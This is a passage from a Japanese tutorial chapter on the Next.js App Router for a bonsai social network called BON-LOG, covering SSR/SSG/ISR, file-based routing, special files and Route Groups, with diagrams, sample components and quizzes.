# 第5章: Next.js App Router入門

---

## 5.0 実習手順の進め方と手順マップ

手順に沿って進めると、**どのファイルに何を入力し、何を確認すればよいか** が分かります。形式の説明は [チュートリアルの進め方](./00_how_to_follow_steps.md) を参照してください。

| 手順 | 主な対象ファイル（例） | 完了時に確認すること |
|------|------------------------|------------------------|
| App Router 構成 | `app/**/page.tsx`, `layout.tsx` | ルートごとにページが表示される |
| Server / Client の使い分け | `app/**/*.tsx`, `components/**/*.tsx` | `'use client'` の要否が判断できる |
| データフェッチ・Server Actions | `app/**/page.tsx`, `lib/actions/*.ts` | サーバーでデータ取得・フォーム送信が動く |
| Dynamic Routes・Proxy | `app/**/[id]/page.tsx`, `proxy.ts` | 動的パス・認証リダイレクトが動く |
| next/image・next/link | 各コンポーネント | 画像・リンクが最適化される |

各セクションで **対象ファイル**・**入力するコード（サンプルコード）**・**実行方法**・**実行するとこうなる**・**このあと変わること**・**確認方法** を確認しながら進めてください。

---

### この章で学ぶこと

- Next.jsとは何か、Reactとの違い、レンダリング戦略（SSR/SSG/ISR）
- App Routerのファイルベースルーティングと特殊ファイルの役割
- Route Groupsでレイアウトを切り替える方法
- Server ComponentsとClient Componentsの使い分けと判断基準
- Server Componentでの直接データフェッチとキャッシュ戦略
- Server Actionsを使ったフォーム送信・データ変更の実装
- Dynamic RoutesとProxy（Next.js 16）による認証制御
- next/imageとnext/linkによるパフォーマンス最適化

### この章の位置づけ

```
  第1章        第2章       第3章        第4章        第5章         第6章
[環境構築] → [HTML/CSS] → [JavaScript] → [React] → [Next.js] → [スタイリング]
                                           |       ◀ 今ここ ▶      |
                                           |                        |
                                      コンポーネント           Tailwind CSS
                                      状態管理               shadcn/ui
                                           |                        |
                                           +-------- 実践開発 ------+
                                                      |
                                               第7章〜 BON-LOG構築

  ※ 第4章で学んだReactの知識をベースに、
    Next.jsのフルスタック機能を習得します。
    ここで学ぶApp Routerは、BON-LOG開発の中核技術です。
```

## 目次
- [5.1 Next.jsとは](#51-nextjsとは)
- [5.2 App Routerのディレクトリ構成](#52-app-routerのディレクトリ構成)
- [5.3 Route Groups](#53-route-groups)
- [5.4 Server Components vs Client Components](#54-server-components-vs-client-components)
- [5.5 データフェッチング](#55-データフェッチング)
- [5.6 Server Actions](#56-server-actions)
- [5.7 Dynamic Routes](#57-dynamic-routes)
- [5.8 Proxy（旧Middleware）](#58-proxy旧middleware)
- [5.9 Metadata](#59-metadata)
- [5.10 next/image と next/link](#510-nextimage-と-nextlink)
- [5.11 BON-LOGでの実例](#511-bon-logでの実例)
- [5.12 演習問題](#512-演習問題)
- [5.A 専門用語集](#5a-専門用語集)
- [5.B 技術選定の理由](#5b-技術選定の理由)
- [5.C 初心者がつまずきやすいポイント集](#5c-初心者がつまずきやすいポイント集)
- [5.13 unstable_cache詳細](#513-unstable_cache詳細)
- [5.14 Proxy詳細（旧Middleware）](#514-proxy詳細旧middleware)
- [5.15 instrumentation.ts](#515-instrumentationts)
- [5.16 Route Handlers詳細](#516-route-handlers詳細)
- [5.17 Metadata & SEO](#517-metadata--seo)
- [5.18 よくある質問（FAQ）](#518-よくある質問faq)
- [5.19 パフォーマンス最適化実践ガイド](#519-パフォーマンス最適化実践ガイド)
- [5.20 Next.js開発のデバッグ手法](#520-nextjs開発のデバッグ手法)

---

## 5.1 Next.jsとは

### このセクションで学ぶこと

- Next.jsがReactに何を追加するフレームワークなのか
- CSR/SSR/SSG/ISRの違いとそれぞれの使いどころ
- BON-LOGではどのレンダリング戦略を使うか

### Next.jsの基本概念

Next.jsはReactをベースにしたフルスタックWebアプリケーションフレームワークです。Reactだけでは実現が難しい機能を提供します。

**Reactとの違い**

| 項目 | React (CSR) | Next.js (ハイブリッド) |
|------|-------------|----------------------|
| レンダリング | ブラウザでJavaScriptを実行してHTMLを生成 | サーバー側でHTMLを生成して送信（SSR/SSG） |
| 初回表示速度 | 遅い（JSのダウンロード→実行→レンダリング） | 速い（完成したHTMLが届く） |
| SEO | 不利（検索エンジンがJSを実行しない場合がある） | 有利（HTMLに内容が含まれる） |
| サーバー処理 | 別途API実装が必要 | Server ActionsやAPI Routesで実装可能 |

以下の図で、ReactのCSR（クライアントサイドレンダリング）とNext.jsのSSR（サーバーサイドレンダリング）の処理フローを比較してみましょう。

**CSR（React単体）の流れ**


```mermaid
sequenceDiagram
    participant Browser as ブラウザ
    participant Server as サーバー
    Browser->>Server: HTMLリクエスト
    Server-->>Browser: 空のHTML + JSバンドル
    Note over Browser: JSをダウンロード・実行
    Browser->>Server: APIリクエスト
    Server-->>Browser: JSONデータ
    Note over Browser: HTMLを組み立てて表示<br/>ここでやっとユーザーに<br/>コンテンツが見える
```

**SSR（Next.js）の流れ**


```mermaid
sequenceDiagram
    participant Browser as ブラウザ
    participant Server as サーバー
    Browser->>Server: HTMLリクエスト
    Note over Server: DBからデータ取得<br/>HTMLを組み立て
    Server-->>Browser: 完成済みHTML
    Note over Browser: ここですぐにコンテンツが見える（高速！）
    Note over Browser: JSをダウンロード（ハイドレーション）<br/>→ インタラクティブに
```

> **ハイドレーション（Hydration）とは？**
> サーバーで生成されたHTMLは「静的な絵」のようなものです。ボタンをクリックしても何も起きません。ハイドレーションは、この静的HTMLにReactのイベントハンドラ（onClick等）を「注入」して、インタラクティブにする過程です。
>
> 1. サーバーがHTMLを生成 → ブラウザに送信（表示は速い）
> 2. ブラウザがJavaScriptを読み込み
> 3. ReactがHTMLに「命を吹き込む」（= ハイドレーション）

**Next.jsのレンダリング戦略**

1. **SSR (Server-Side Rendering)**: リクエストごとにサーバーでHTMLを生成
   - 常に最新データを表示
   - ユーザーごとに異なる内容を表示（ログイン状態など）
   - BON-LOGでは: タイムライン、通知一覧

2. **SSG (Static Site Generation)**: ビルド時にHTMLを生成
   - 超高速（CDNでキャッシュ可能）
   - 全ユーザーに同じ内容を表示
   - BON-LOGでは: ランディングページ、利用規約

3. **ISR (Incremental Static Regeneration)**: SSG + 定期的な再生成
   - SSGの高速性 + ある程度の鮮度
   - BON-LOGでは: 人気投稿ランキング、イベント一覧

**レンダリング戦略の選び方フローチャート**


```mermaid
flowchart TD
    Start[データは頻繁に変わる?]
    Start -->|Yes| UserSpecific[ユーザーごとに<br/>異なるデータ?]
    Start -->|No| SSG[SSG<br/>ビルド時に生成<br/>例: 利用規約]
    UserSpecific -->|Yes| SSR[SSR<br/>毎回生成<br/>例: タイムライン]
    UserSpecific -->|No| ISR[ISR<br/>定期再生成<br/>例: ランキング]

    style SSG fill:#d4f1d4
    style SSR fill:#ffd4d4
    style ISR fill:#d4e4ff
```

> **レンダリング戦略の選び方**
> ```
> データはユーザーごとに違う？
> ├── はい → SSR（Server-Side Rendering）
> │         例: タイムライン、通知、マイページ
> └── いいえ → データは頻繁に変わる？
>     ├── はい → ISR（Incremental Static Regeneration）
>     │         例: 盆栽園一覧（1時間ごと更新）
>     └── いいえ → SSG（Static Site Generation）
>               例: 利用規約、ヘルプページ
> ```

### Next.jsリクエストライフサイクル（Server Component）

以下の図は、ユーザーがServer Componentのページにアクセスした際の処理フローを示します。


```mermaid
flowchart TD
    Start[ユーザーがURLにアクセス]
    Start --> Middleware[Middleware実行<br/>認証チェック・セキュリティヘッダー]
    Middleware --> RouteMatch[App Routerがルートを解決<br/>page.tsx を特定]
    RouteMatch --> Layout[layout.tsx を実行<br/>共通レイアウト生成]
    Layout --> ServerComponent[Server Component 実行<br/>async/await でデータフェッチ]
    ServerComponent --> Cache{キャッシュあり?}
    Cache -->|Yes| ReturnCache[キャッシュからHTML返却]
    Cache -->|No| DB[データベースクエリ実行]
    DB --> Render[React Server Components<br/>でHTMLレンダリング]
    Render --> Hydration[ブラウザに送信<br/>ハイドレーション準備]
    ReturnCache --> Hydration
    Hydration --> Interactive[クライアントでJSダウンロード<br/>インタラクティブに]

    style Middleware fill:#fff9e6
    style ServerComponent fill:#d4f1d4
    style Cache fill:#e6f3ff
    style Interactive fill:#ffe6e6
```

### よくあるトラブルと解決法

| トラブル | 原因 | 解決法 |
|---------|------|--------|
| `next dev`で起動しない | Node.jsのバージョンが古い | Node.js 18以上をインストール |
| ポート3000が使用中 | 別のプロセスが占有 | `next dev -p 3001`で別ポートを使う |
| モジュールが見つからない | `npm install`忘れ | `npm install`を実行 |

### 理解度チェック

<details>
<summary>Q1: ReactとNext.jsの最大の違いは何ですか？</summary>

**A:** Reactはクライアントサイドでのみ動作するUIライブラリですが、Next.jsはサーバーサイドレンダリング（SSR）、静的サイト生成（SSG）、API Routes、Server Actionsなど、サーバー側の機能を含むフルスタックフレームワークです。これにより、初回表示の高速化やSEO対策が容易になります。
</details>

<details>
<summary>Q2: タイムラインページにはSSR/SSG/ISRのどれが適切ですか？その理由は？</summary>

**A:** SSR（Server-Side Rendering）が適切です。理由は、タイムラインはログインユーザーのフォロー状況に応じて表示内容が異なり、常に最新の投稿を表示する必要があるためです。SSGではビルド時の固定データしか表示できず、ISRでは再検証間隔の間に新しい投稿が反映されません。
</details>

<details>
<summary>Q3: ISRの「revalidate: 60」とはどういう意味ですか？</summary>

**A:** 最初のリクエスト時にHTMLを生成してキャッシュし、60秒間はキャッシュを返します。60秒経過後の最初のリクエストではキャッシュを返しつつ、バックグラウンドで新しいHTMLを再生成します。次のリクエストからは新しいHTMLが返されます。これにより、高速表示とデータの鮮度を両立します。
</details>

### この章で登場する専門用語

この章ではWeb開発の専門用語が多数登場します。初めて目にする用語があっても安心してください。以下にまとめて解説します。各用語は章の本文中で具体的なコード例とともに詳しく説明されますので、まずはざっと目を通して「こういう概念があるんだな」と把握しておけば十分です。

| 用語 | 英語正式名 | 一言でいうと | 詳しい説明 |
|------|-----------|-------------|-----------|
| **SSR** | Server-Side Rendering | サーバーでHTMLを作る | ユーザーがページにアクセスするたびに、サーバー側でHTMLを生成してブラウザに送る方式です。常に最新のデータを表示できますが、リクエストのたびにサーバーが処理を行うためサーバー負荷が高くなります。BON-LOGではタイムラインや通知ページで使用します。 |
| **SSG** | Static Site Generation | ビルド時にHTMLを作っておく | アプリケーションのビルド（デプロイ準備）時にあらかじめHTMLファイルを生成しておく方式です。ユーザーのアクセス時にはすでに完成したHTMLを返すだけなので非常に高速です。データが変わらないページ（利用規約、ランディングページなど）に向いています。 |
| **ISR** | Incremental Static Regeneration | SSGに定期更新を足したもの | SSGの高速さを保ちつつ、一定時間ごとにHTMLをバックグラウンドで再生成する方式です。例えば「60秒ごとに更新」と設定すると、60秒間はキャッシュされたHTMLを返し、60秒後のアクセスをきっかけにバックグラウンドで新しいHTMLを作ります。ランキングページなどに向いています。 |
| **CSR** | Client-Side Rendering | ブラウザでHTMLを作る | ブラウザ側でJavaScriptを実行してHTMLを生成する方式です。React単体での開発はこの方式です。初回表示が遅く、SEOにも不利ですが、リッチなインタラクションを実現しやすいです。 |
| **ハイドレーション** | Hydration | 静的HTMLに動きを付ける | サーバーから送られた静的なHTMLに、ブラウザ側でJavaScriptを紐付けてインタラクティブ（クリックやスクロールに反応する状態）にするプロセスです。SSRで生成されたHTMLはそのままでは「見た目だけ」の状態なので、ハイドレーションを経て初めてボタンのクリックなどが動作するようになります。 |
| **ルーティング** | Routing | URLとページの対応付け | ブラウザのURL（例: `/posts/123`）に対して、どのページコンポーネントを表示するかを決める仕組みです。Next.jsのApp Routerでは、ファイルやディレクトリの配置がそのままURLのパスになる「ファイルシステムベースルーティング」を採用しています。 |
| **ミドルウェア** | Middleware | リクエストの前処理 | ユーザーのリクエストがページに到達する前に実行される処理です。認証チェック（ログインしていないユーザーをログインページに飛ばす）、リダイレクト、セキュリティヘッダーの付与などに使われます。「門番」のようなイメージです。 |
| **メタデータ** | Metadata | ページの補足情報 | HTMLの`<head>`タグ内に記述される、ページのタイトル・説明文・OGP画像などの情報です。検索エンジンの検索結果やSNSでのリンクプレビューに使われます。SEO（検索エンジン最適化）に直結する重要な要素です。 |
| **キャッシュ** | Cache | データの一時保存 | 一度取得したデータを一時的に保存しておき、次回以降は保存されたデータを使い回す仕組みです。データベースへのアクセス回数を減らし、ページ表示を高速化します。ただし、キャッシュが古いデータを返してしまう可能性があるため、適切な「有効期限」の設定が重要です。 |
| **Edge Runtime** | Edge Runtime | CDN上の軽量実行環境 | ユーザーに地理的に近いサーバー（CDNのエッジサーバー）上で動作する軽量なJavaScript実行環境です。Node.jsの全機能は使えませんがWeb標準APIが利用でき、起動が非常に速いのが特徴です。Next.jsのMiddlewareはこの環境で動作します。 |
| **Server Component** | React Server Component | サーバーで実行されるコンポーネント | サーバー側でのみ実行されるReactコンポーネントです。データベースに直接アクセスでき、JavaScriptバンドルに含まれないため軽量です。App Routerではデフォルトでこの方式です。 |
| **Client Component** | Client Component | ブラウザで実行されるコンポーネント | ブラウザ側で実行されるReactコンポーネントです。`'use client'`を先頭に記述して宣言します。ボタンクリック、フォーム入力、アニメーションなどユーザーとのインタラクションが必要な部分に使います。 |
| **Server Actions** | Server Actions | サーバーで実行される関数 | `'use server'`を付けた関数で、フォーム送信などのクライアント操作からサーバー側の処理（DB書き込みなど）を直接呼び出せる仕組みです。従来のAPI Route作成が不要になり、コードがシンプルになります。 |
| **Route Handler** | Route Handler | APIエンドポイント | `app/api/`配下に配置する、HTTPリクエストを処理するサーバー側の関数です。外部サービスからのWebhookやCronジョブなど、ブラウザ以外からの呼び出しに使います。 |
| **revalidate** | Revalidate | キャッシュの再検証 | キャッシュされたデータを更新するタイミングや方法を指定する仕組みです。時間ベース（`revalidate: 60`で60秒ごと）やオンデマンド（`revalidatePath`/`revalidateTag`で任意のタイミング）で再検証できます。 |
| **Suspense** | Suspense | 読み込み中の仮表示 | Reactの機能で、データ取得中のコンポーネントに対して「ローディング表示」を自動的に差し込む仕組みです。Next.jsの`loading.tsx`はこの機能を利用しています。 |
| **Error Boundary** | Error Boundary | エラーの受け止め | Reactの機能で、子コンポーネントで発生したエラーをキャッチして、アプリ全体がクラッシュするのを防ぎます。Next.jsの`error.tsx`はこの機能を利用しています。 |

---

## 5.2 App Routerのディレクトリ構成

### このセクションで学ぶこと

- ファイルシステムベースルーティングの仕組み
- page.tsx、layout.tsx、loading.tsx、error.tsxなど特殊ファイルの役割
- レイアウトのネスト構造とその再レンダリング特性

Next.js 13以降のApp Routerでは、ファイルシステムベースのルーティングを使用します。BON-LOGはNext.js 16を採用しています。

### ファイルベースルーティングの仕組み

ディレクトリ構造がそのままURLパスになる、というのがApp Routerの核心です。

```
【ディレクトリ構造 → URLの対応】

app/
├── page.tsx                → URL: /
├── about/
│   └── page.tsx            → URL: /about
├── posts/
│   ├── page.tsx            → URL: /posts
│   └── [id]/
│       └── page.tsx        → URL: /posts/abc123  (動的)
├── users/
│   └── [userId]/
│       ├── page.tsx        → URL: /users/user1
│       └── posts/
│           └── page.tsx    → URL: /users/user1/posts
└── api/
    └── health/
        └── route.ts        → URL: /api/health (API)

  ※ page.tsx がないディレクトリはURLとして機能しない
  ※ [id] のように角括弧で囲むと動的パラメータになる
```

### ファイルシステムルーティングとは？ -- 従来方式との比較

「ファイルシステムベースルーティング」とは、ディレクトリ（フォルダ）を作成するだけでURLが自動的に決まる仕組みです。これがどれほど便利かを、従来の方式と比較して理解しましょう。

```
【従来のReact Router方式（手動でURLを定義）】

  // ルーティング定義ファイル（router.tsx）を手動で作成
  <Routes>
    <Route path="/" element={<HomePage />} />
    <Route path="/about" element={<AboutPage />} />
    <Route path="/posts" element={<PostsPage />} />
    <Route path="/posts/:id" element={<PostDetailPage />} />
    <Route path="/users/:userId" element={<UserPage />} />
    <Route path="/users/:userId/posts" element={<UserPostsPage />} />
  </Routes>

  問題点:
  - URLの定義とコンポーネントの配置が別々 → 管理が煩雑
  - URLを増やすたびにrouter.tsxの編集が必要
  - パスのタイプミスに気づきにくい

【Next.js App Router方式（ディレクトリ構造 = URL）】

  app/
  ├── page.tsx           →  /           （フォルダを作るだけ！）
  ├── about/
  │   └── page.tsx       →  /about      （フォルダを作るだけ！）
  ├── posts/
  │   ├── page.tsx       →  /posts      （フォルダを作るだけ！）
  │   └── [id]/
  │       └── page.tsx   →  /posts/:id  （フォルダを作るだけ！）
  └── users/
      └── [userId]/
          ├── page.tsx   →  /users/:userId
          └── posts/
              └── page.tsx → /users/:userId/posts

  メリット:
  - ディレクトリ構造を見るだけでURLの全体像がわかる
  - 新しいページを追加 = フォルダとpage.tsxを作成するだけ
  - ルーティング定義ファイルが不要
```

以下の図は、実際にBON-LOGで新しいページを追加する際の手順イメージです。

```
【新しいページ追加の流れ】

  「盆栽園の詳細ページ（/shops/xxxxx）を追加したい」

  手順1: ディレクトリを作成
         app/shops/[id]/

  手順2: page.tsxを作成
         app/shops/[id]/page.tsx

  手順3: 完了！
         → /shops/shop-001 にアクセスすると page.tsx が表示される

  ※ ルーティング設定ファイルの編集は一切不要
  ※ ディレクトリ名がそのままURLパスのセグメントになる

```

URL構造の読み方:

| 部分 | `https://bon-log.com` | `/shops` | `/shop-001` |
|------|----------------------|----------|-------------|
| 役割 | ドメイン名 | 固定パス | 動的パラメータ（[id]に対応） |

### App Routerのルーティング解決フロー

以下の図は、ブラウザからのリクエストがどのようにファイルに解決されるかを示します。


```mermaid
flowchart TD
    Request["リクエスト: /posts/abc123"]
    Request --> FindDir[app/ ディレクトリから探索]
    FindDir --> CheckPosts{posts/ ディレクトリは存在?}
    CheckPosts -->|No| NotFound404[404 Not Found]
    CheckPosts -->|Yes| CheckDynamic{"[id]/ ディレクトリは存在?"}
    CheckDynamic -->|No| NotFound404
    CheckDynamic -->|Yes| CheckPage{page.tsx は存在?}
    CheckPage -->|No| NotFound404
    CheckPage -->|Yes| LoadLayout[layout.tsx を読み込み<br/>親レイアウトから順に]
    LoadLayout --> LoadPage[page.tsx を読み込み]
    LoadPage --> ExtractParams["params = { id: 'abc123' } を抽出"]
    ExtractParams --> Execute[ページコンポーネントを実行<br/>params を渡す]
    Execute --> Render[HTMLをレンダリングして返却]

    style CheckPosts fill:#e6f3ff
    style CheckDynamic fill:#e6f3ff
    style CheckPage fill:#e6f3ff
    style NotFound404 fill:#ffe6e6
    style Render fill:#d4f1d4
```

### 特殊ファイル

App Routerには、決まった名前を持つ「特殊ファイル」があります。それぞれが特定の役割を果たします。

```
app/
├── page.tsx          # ページコンポーネント（必須）
├── layout.tsx        # レイアウトコンポーネント（共通UI）
├── loading.tsx       # ローディングUI（Suspenseフォールバック）
├── error.tsx         # エラーUI（エラーバウンダリ）
├── not-found.tsx     # 404ページ
└── route.ts          # API Route（GET, POST等のHTTPハンドラ）
```

以下の図は、各特殊ファイルがどのように組み合わさるかを示しています。

**特殊ファイルの連携図**


```mermaid
flowchart TD
    Request[リクエスト]
    Request --> Layout[layout.tsx<br/>共通ヘッダー/フッター]
    Layout --> Loading[loading.tsx<br/>データ取得中に表示]
    Loading --> Page[page.tsx]
    Page -->|正常| User[ユーザーに表示]
    Page -->|エラー| Error[error.tsx<br/>再試行ボタン付き]
    Page -->|未検出| NotFound[not-found.tsx<br/>404表示]

    style Layout fill:#e8f4f8
    style Page fill:#fff9e6
    style Error fill:#ffe6e6
    style NotFound fill:#fff0cc
```

### page.tsx - ページコンポーネント

まず、最もシンプルなページを作成してみましょう。

**Step 1: ディレクトリとファイルを作成する**

```
app/
└── posts/
    └── page.tsx    ← このファイルを作成
```

**Step 2: ページコンポーネントを記述する**

```typescript
// app/posts/page.tsx
export default function PostsPage() {
  return (
    <div>
      <h1>投稿一覧</h1>
      {/* ページコンテンツ */}
    </div>
  )
}
```

> **画面表示**
> `npm run dev` でサーバーを起動し、`http://localhost:3000/posts` にアクセスすると:
> - 画面に「投稿一覧」という見出し（h1）が表示される
> - この時点ではまだデータ取得をしていないため、見出しのみのシンプルな画面
> - ブラウザのタブにはデフォルトのタイトルが表示される

> **実行結果の確認方法**
> 1. ターミナルで `npm run dev` を実行し、開発サーバーを起動する
> 2. ブラウザで `http://localhost:3000/posts` を開く
> 3. 「投稿一覧」というテキストが表示されれば成功
> 4. ブラウザの開発者ツール（F12）の「Elements」タブで、`<h1>投稿一覧</h1>` がHTMLに含まれていることを確認できる

### layout.tsx - レイアウトコンポーネント

レイアウトは複数のページで共有されるUIです。ナビゲーション間でも再レンダリングされません。

```typescript
// app/layout.tsx (ルートレイアウト)
import type { Metadata } from 'next'

export const metadata: Metadata = {
  title: 'BON-LOG',
  description: '盆栽愛好家のためのSNS',
}

export default function RootLayout({
  children,
}: {
  children: React.ReactNode
}) {
  return (
    <html lang="ja">
      <body>
        {/* すべてのページで共通のヘッダー */}
        <header>BON-LOG</header>
        {children}
        {/* すべてのページで共通のフッター */}
        <footer>&copy; 2026 BON-LOG</footer>
      </body>
    </html>
  )
}
```

> **画面表示**
> このルートレイアウトを作成すると、すべてのページに共通のUIが適用される:
> - 画面最上部に「BON-LOG」というヘッダーテキストが表示される
> - 画面最下部に「(c) 2026 BON-LOG」というフッターが表示される
> - ヘッダーとフッターの間に、各ページのコンテンツ（`{children}`）が挿入される
> - ページを切り替えても、ヘッダーとフッターは再レンダリングされず、中央のコンテンツだけが切り替わる

ネストしたレイアウトも可能です。

```typescript
// app/posts/layout.tsx (投稿セクション専用レイアウト)
export default function PostsLayout({
  children,
}: {
  children: React.ReactNode
}) {
  return (
    <div className="posts-container">
      <aside>投稿フィルター</aside>
      <main>{children}</main>
    </div>
  )
}
```

> **画面表示**
> `http://localhost:3000/posts` にアクセスすると、2つのレイアウトが入れ子に適用される:
> - 最外側: ルートレイアウト（ヘッダー「BON-LOG」+ フッター）
> - その内側: 投稿レイアウト（左に「投稿フィルター」サイドバー + 右にメインコンテンツ）
> - メインコンテンツ部分に「投稿一覧」（page.tsxの内容）が表示される
> - `/posts` から `/posts/abc123` に遷移しても、レイアウト部分は再描画されず、page.tsx部分だけが切り替わる

**レイアウトのネスト構造**


```mermaid
graph TD
    subgraph RootLayout["app/layout.tsx (ルートレイアウト)"]
        Header["&lt;header&gt;BON-LOG&lt;/header&gt;"]

        subgraph PostsLayout["app/posts/layout.tsx (投稿レイアウト)"]
            Aside["&lt;aside&gt;投稿フィルター&lt;/aside&gt;"]

            subgraph PageContent["app/posts/page.tsx (ページ本体)"]
                Content["&lt;h1&gt;投稿一覧&lt;/h1&gt;<br/>..."]
            end
        end

        Footer["&lt;footer&gt;(c) 2026 BON-LOG&lt;/footer&gt;"]
    end

    style RootLayout fill:#e8f4f8
    style PostsLayout fill:#fff9e6
    style PageContent fill:#f0f8ff
```

※ ページ間を移動しても、layout.tsxは再レンダリングされない
  → ヘッダー/フッターがちらつかず、パフォーマンスが良い

### loading.tsx - ローディングUI

自動的にSuspenseでラップされます。

```typescript
// app/posts/loading.tsx
export default function Loading() {
  return (
    <div className="flex items-center justify-center p-8">
      <div className="animate-spin rounded-full h-12 w-12 border-b-2 border-gray-900" />
      <p className="ml-4">投稿を読み込み中...</p>
    </div>
  )
}
```

> **画面表示**
> `http://localhost:3000/posts` にアクセスした直後（page.tsxのデータ取得完了前）:
> - 画面中央にグレーの円がくるくる回転するスピナーアニメーションが表示される
> - スピナーの右に「投稿を読み込み中...」というテキストが表示される
> - データ取得が完了すると、自動的にloading.tsxの内容が消え、page.tsxの内容に切り替わる

### error.tsx - エラーUI

エラーバウンダリとして機能します。**Client Componentである必要があります。**

```typescript
// app/posts/error.tsx
'use client'

export default function Error({
  error,
  reset,
}: {
  error: Error & { digest?: string }
  reset: () => void
}) {
  return (
    <div className="p-8">
      <h2 className="text-xl font-bold text-red-600">エラーが発生しました</h2>
      <p className="text-gray-600">{error.message}</p>
      <button
        onClick={() => reset()}
        className="mt-4 px-4 py-2 bg-blue-500 text-white rounded"
      >
        再試行
      </button>
    </div>
  )
}
```

> **画面表示**
> page.tsxのデータ取得中にエラーが発生した場合（DB接続エラー等）:
> - 赤文字で「エラーが発生しました」という見出しが表示される
> - その下にエラーの詳細メッセージ（灰色テキスト）が表示される
> - 青色の「再試行」ボタンが表示され、クリックするとpage.tsxの再レンダリングを試みる
> - アプリ全体はクラッシュせず、エラーが発生したページ部分だけがこの表示に置き換わる

### not-found.tsx - 404ページ

```typescript
// app/posts/[id]/not-found.tsx
import Link from 'next/link'

export default function NotFound() {
  return (
    <div className="p-8 text-center">
      <h2 className="text-2xl font-bold">投稿が見つかりません</h2>
      <p className="text-gray-600 mt-2">この投稿は削除されたか、存在しません。</p>
      <Link href="/feed" className="text-blue-500 underline mt-4 inline-block">
        タイムラインに戻る
      </Link>
    </div>
  )
}
```

> **画面表示**
> `http://localhost:3000/posts/存在しないID` にアクセスすると:
> - 画面中央に「投稿が見つかりません」と太字で表示される
> - その下に「この投稿は削除されたか、存在しません。」という説明文が表示される
> - 「タイムラインに戻る」という青色のリンクが表示され、クリックすると `/feed` に遷移する

### よくあるトラブルと解決法

| トラブル | 原因 | 解決法 |
|---------|------|--------|
| ページが表示されない | `page.tsx`ではなく`Page.tsx`になっている | ファイル名は小文字の`page.tsx`にする |
| レイアウトが適用されない | `layout.tsx`が正しい階層にない | URLパスに対応するディレクトリに配置する |
| error.tsxが動かない | `'use client'`を付け忘れ | error.tsxの先頭に`'use client'`を追加 |
| loading.tsxが表示されない | page.tsxが同期関数になっている | `async`を付けてデータフェッチを行う |

### 理解度チェック

<details>
<summary>Q1: layout.tsxがページ遷移時に再レンダリングされないメリットは何ですか？</summary>

**A:** ヘッダーやサイドバーなどの共通UIがページ遷移のたびに再描画されないため、ちらつきがなくなり、パフォーマンスが向上します。また、レイアウト内の状態（例: サイドバーの開閉状態、スクロール位置）が保持されるため、ユーザー体験が良くなります。
</details>

<details>
<summary>Q2: error.tsxが 'use client' を必要とするのはなぜですか？</summary>

**A:** error.tsxはエラーバウンダリ（Error Boundary）として機能しますが、Error BoundaryはReactのクラスコンポーネント機能に依存しており、クライアントサイドでのみ動作します。また、`reset()`関数でUIを再試行する際にユーザーのクリックイベントを処理する必要があるため、Client Componentである必要があります。
</details>

---

## 5.3 Route Groups

### このセクションで学ぶこと

- Route Groupsの記法（括弧記法）とURLへの影響
- 認証ページとメインアプリでレイアウトを分ける方法
- 法的ページ・公開ページ・管理者ページのレイアウト分離
- Route Groupsを使ったコードの整理

Route Groups（ルートグループ）は、URLに影響を与えずにルートを整理する機能です。`(フォルダ名)`のように括弧で囲みます。

### BON-LOGの全ルートグループ構成

BON-LOGでは**4つのRoute Groups**と**1つの通常ディレクトリ（admin/）**を使い分けています。

```
app/
├── (auth)/              # 認証関連（URLには含まれない）
│   ├── layout.tsx       # 認証ページ専用レイアウト（中央寄せカード）
│   ├── login/
│   │   └── page.tsx     # URL: /login
│   ├── register/
│   │   └── page.tsx     # URL: /register
│   ├── password-reset/
│   │   └── page.tsx     # URL: /password-reset
│   └── verify-email/
│       └── page.tsx     # URL: /verify-email
│
├── (main)/              # メインアプリ（URLには含まれない）
│   ├── layout.tsx       # 3カラムレイアウト + 認証チェック
│   ├── feed/
│   │   └── page.tsx     # URL: /feed
│   ├── posts/
│   │   └── [id]/
│   │       └── page.tsx # URL: /posts/abc123
│   ├── users/
│   │   └── [id]/
│   │       └── page.tsx # URL: /users/user123
│   ├── search/
│   │   └── page.tsx     # URL: /search
│   ├── shops/
│   │   └── page.tsx     # URL: /shops
│   ├── events/
│   │   └── page.tsx     # URL: /events
│   ├── notifications/
│   │   └── page.tsx     # URL: /notifications
│   ├── bookmarks/
│   │   └── page.tsx     # URL: /bookmarks
│   ├── messages/
│   │   └── page.tsx     # URL: /messages
│   ├── settings/
│   │   └── page.tsx     # URL: /settings
│   ├── drafts/
│   │   └── page.tsx     # URL: /drafts
│   ├── bonsai/
│   │   └── page.tsx     # URL: /bonsai
│   └── analytics/
│       └── page.tsx     # URL: /analytics
│
├── (legal)/             # 法的ページ（URLには含まれない）
│   ├── layout.tsx       # 法的ページ専用レイアウト（ヘッダー+フッター）
│   ├── terms/
│   │   └── page.tsx     # URL: /terms
│   ├── privacy/
│   │   └── page.tsx     # URL: /privacy
│   └── tokushoho/
│       └── page.tsx     # URL: /tokushoho
│
├── (public)/            # 公開ページ（URLには含まれない）
│   ├── layout.tsx       # 公開ページ専用レイアウト（ヘッダー+フッター）
│   ├── about/
│   │   └── page.tsx     # URL: /about
│   ├── contact/
│   │   └── page.tsx     # URL: /contact
│   └── help/
│       └── page.tsx     # URL: /help
│
├── admin/               # 管理者ページ（通常ディレクトリ、URL: /admin/*）
│   ├── layout.tsx       # 管理者専用レイアウト（サイドバー + 認証 + 権限チェック）
│   ├── page.tsx         # URL: /admin（ダッシュボード）
│   ├── users/
│   │   └── page.tsx     # URL: /admin/users
│   ├── posts/
│   │   └── page.tsx     # URL: /admin/posts
│   ├── reports/
│   │   └── page.tsx     # URL: /admin/reports
│   ├── maintenance/
│   │   └── page.tsx     # URL: /admin/maintenance
│   └── ...              # 他13ページ（stats, logs, shops等）
│
└── layout.tsx           # ルートレイアウト（全ページ共通）
```

```
【Route Groups と admin/ の使い分け】

  Route Groups（括弧付き）: URLに影響を与えず、レイアウトだけを分離
  ├── (auth)   → /login, /register（URLに "auth" は含まれない）
  ├── (main)   → /feed, /posts（URLに "main" は含まれない）
  ├── (legal)  → /terms, /privacy（URLに "legal" は含まれない）
  └── (public) → /about, /help（URLに "public" は含まれない）

  通常ディレクトリ（括弧なし）: URLにディレクトリ名が含まれる
  └── admin/   → /admin, /admin/users（URLに "admin" が含まれる）
      なぜ括弧を使わないか？
      → 管理者ページは /admin/* という明確なURLパスが必要
      → proxy.ts（Middleware）で /admin パスを保護対象として識別するため
```

```
【5つのレイアウトの対応表】

  | ルートグループ | レイアウト | 認証チェック | ページ例 |
  |---------------|-----------|------------|---------|
  | (auth) | 中央寄せカード + 和風装飾 | なし（未ログイン用） | /login, /register |
  | (main) | 3カラム（左ナビ+中央+右サイドバー）| あり（認証必須）| /feed, /posts, /users |
